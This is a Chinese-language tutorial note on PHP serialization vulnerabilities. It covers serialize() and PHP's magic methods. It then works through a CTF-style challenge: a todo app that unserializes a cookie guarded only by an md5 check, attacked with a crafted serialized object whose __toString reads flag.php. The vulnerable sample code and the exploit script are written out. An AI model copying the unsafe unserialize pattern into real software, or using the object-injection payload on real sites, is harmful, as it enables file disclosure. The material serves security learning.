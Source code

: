 ﻿---
title: Serialization-PHP
categories:
- Network_Security
- Web
- Serialization
- Principle
- PHP
tags:
- Network_Security
date: 2024-01-29 14:25:39
---

# 序列化漏洞

## 1. 序列化介绍

1. 序列化就是将对象状态转换为可保持或者可传输的格式（例如 Json）的过程。其逆过程就是反序列化，即将流数据转换成对象。

## 2. PHP 序列化

### 1. 序列化的函数：

1. 在 PHP 中，使用 `serialize()` 方法来序列化一个变量。

### 2. 例子

1. 假设有这样的一段代码：

    ```php
    $arr = array( 
      "0" => array( 
        "gameName" => "德乙", 
        "homeName" => "比勒费尔德", 
        "guestName" => "不伦瑞克", 
        "endTime" => "2015-08-21" 
      ), 
      "1" => array( 
        "gameName" => "英超", 
        "homeName" => "水晶宫", 
        "guestName" => "阿斯顿维拉", 
        "endTime" => "2015-08-22" 
      ) 
    ); 
    
    $serialize = serialize($arr); 
    echo $serialize; 
    ```

    然后其序列化的结果为：

    ```php
    a:2:{i:0;a:4:{s:8:"gameName";s:6:"德乙";s:8:"homeName";s:15:"比勒费尔德";s:9:"guestName";s:12:"不伦瑞克";s:7:"endTime";s:10:"2015-08-21";}i:1;a:4:{s:8:"gameName";s:6:"英超";s:8:"homeName";s:9:"水晶宫";s:9:"guestName";s:15:"阿斯顿维拉";s:7:"endTime";s:10:"2015-08-22";}} 
    ```

    将其放在 PHP 在线反序列化的网站中反序列化，得到：

    ### ![image-20220607194428014](image-20220607194428014.png)

### 3. PHP 常见的 magic 方法：

| 方法名                                        | 触发点                                                       |
| --------------------------------------------- | ------------------------------------------------------------ |
| `__construct`                                 | 在创建对象时初始化对象（类似于构造函数），用于变量的初始化   |
| `__destruct`                                  | 对象销毁时调用，即用户销毁或者内核自动销毁时调用（有点像析构函数） |
| `__get`                                       | 用于从不可访问的属性读取数据，即在调用私有属性的时候会自动执行 |
| `__set`                                       | 用于将数据写入不可访问的属性                                 |
| `__isset`                                     | 在不可访问的属性上调用 `isset()` 或 `empty()` 触发           |
| `__unset`                                     | 和 `__isset` 类似                                            |
| `__call`                                      | 在对象上下文中调用不可访问或者不存在的方法时触发，即当调用对象中不存在的方法会自动调用该方法 |
| `__callStatic`                                | 在对象上下文中调用不可访问或者不存在的静态方法时触发，即当调用对象中不存在的方法会自动调用该方法 |
| `__sleep`                                     | 在调用 `serialize()` 时先被调用，其一般的作用是清理对象或者提交未提交的数据，并返回一个包含 对象中所有应该被序列化的变量名称的 数组（就是可以指定被序列化的内容）。如果未返回任何内容，那么 `null` 就会被序列化，并产生错误。 |
| `__wakeup`                                    | 在调用 `unserialize()` 时先被调用，返回空值，通常用于执行重新链接数据库或者其他初始化操作。 |
| `__serialize`<br/>适用于 PHP 7.4.0 以上版本   | 优先级高于 `__sleep()` 且会替代其执行，如果对象继承实现了 `Serializable` 接口，那么该对象的 `serialize()` 将会被 `__serialize`() 替代。 |
| `__unserialize`<br/>适用于 PHP 7.4.0 以上版本 | 和 `__serialize()` 差不多，同样会替代 `__wakeup()`           |
| `__toString`                                  | 和 Java 的 `toString()` 类似                                 |
| `__clone`                                     | 当对象被复制时调用                                           |
| ...还有其他方法，用到后就补充                 |                                                              |

### 4. 反序列化例题：`__toString()` 的反序列化

1. `__toString()`，和 Java 的 `toString()` 很类似，当一个类被当作字符串使用的时候（例如打印出来），就会自动调用该方法。

2. 题目源代码如下：

    ```php+HTML
    <?php
    // 创建一个类
    Class readme{
        public function __toString()
        {
            // __toString() 的结果是将变量 source 指代的文件在网页中格式化显示。
            return highlight_file('Readme.txt', true).highlight_file($this->source, true);
        }
    }
    // 用 GET 给 source 随便传值就可以获得源代码 
    if(isset($_GET['source'])){
        $s = new readme();
        $s->source = __FILE__;
        echo $s;
        exit;
    }
    // $todos = [];
    if(isset($_COOKIE['todos'])){
        $c = $_COOKIE['todos'];
        // 变量 h 获取 cookie 的前 32 位
        $h = substr($c, 0, 32);
        // 变量 m 获取 cookie 的 32 位向后的字符串
        $m = substr($c, 32);
        // 如果 m 的 md5 hash 值和 h 相等，则反序列化变量 m 的内容
        if(md5($m) === $h){
            $todos = unserialize($m);
        }
    }
    // 感觉这里可以应用，因为他序列化并且加密了（待学习补充）
    if(isset($_POST['text'])){
        $todo = $_POST['text'];
        $todos[] = $todo;
        $m = serialize($todos);
        $h = md5($m);
        setcookie('todos', $h.$m);
        header('Location: '.$_SERVER['REQUEST_URI']);
        exit;
    }
    ?>
    <html>
    <head>
    </head>
    
    <h1>Readme</h1>
    <a href="?source"><h2>Check Code</h2></a>
    <ul>
        <!-- 这里将变量 todos 进行一个遍历（从 $todos[] = $todo;）以及其需要遍历来看，其本身应该是一个数组，那么需要传入一个数组 -->
        <?php foreach($todos as $todo):?>
            <li><?=$todo?></li>
        <?php endforeach;?>
    </ul>
    
    <form method="post" href=".">
        <textarea name="text"></textarea>
        <input type="submit" value="store">
    </form>
    ```

3. 因此构造脚本，生成序列化的结果和 md5 加密后的字符串

    ```php
    <?php
    // 类不变，直接拿过来
    Class readme{
        public function __toString()
        {
            return highlight_file('Readme.txt', true).highlight_file($this->source, true);
        }
    }
    if(isset($_GET['source'])){
        $s = new readme();
        // 这里如果直接改成 flag.php，那么就可以直接读取到源码
        $s->source = 'flag.php';
        // 将变量 s 变成数组，因为它到时要被反序列化赋值给变量 todos
        $s=[$s];
        // 打印序列化的内容和序列化加密后的内容
        echo serialize($s);
        echo md5(serialize($s));
        echo $s;
        exit;
    }
    ```

4. 转换后的结果如下：

    ![image-20220617162348376](image-20220617162348376.png)

5. 在 burpsuite 中设置 cookie 值（url 编码），让其反序列化并在 html 代码中遍历打印（打印类时就会调用 `__toString()`），从而将 `flag.php` 显示出来。

    ![image-20220617162642514](image-20220617162642514.png)

6. 待学习补充：text 的作用。



